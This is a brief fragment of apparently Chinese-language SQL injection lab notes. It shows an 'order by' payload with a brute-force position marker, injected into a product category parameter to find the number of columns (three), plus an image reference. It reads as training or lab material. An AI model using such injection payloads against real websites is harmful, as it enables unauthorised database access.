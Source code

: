 order by确定返回列数：

payload:

```javascript
Clothing%2c+shoes+and+accessories'order+by+§1§--+
```

爆破1，确定有三个字段

![](images/0BBDF41C0D9E4776AE6ABA05A5C24171clipboard.png)


